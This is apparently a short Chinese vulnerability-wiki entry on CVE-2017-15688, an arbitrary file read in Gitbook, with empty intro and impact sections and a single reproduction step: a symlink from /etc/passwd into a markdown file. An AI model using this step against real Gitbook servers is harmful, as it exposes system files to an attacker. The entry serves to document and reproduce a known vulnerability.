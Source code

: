 （CVE-2017-15688）Gitbook 任意文件读取
======================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

创建一个md文件，代码用以下

    ln -s /etc/passwd ./passwd.md

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-15688)Gitbook任意文件读取/media/rId24.png)
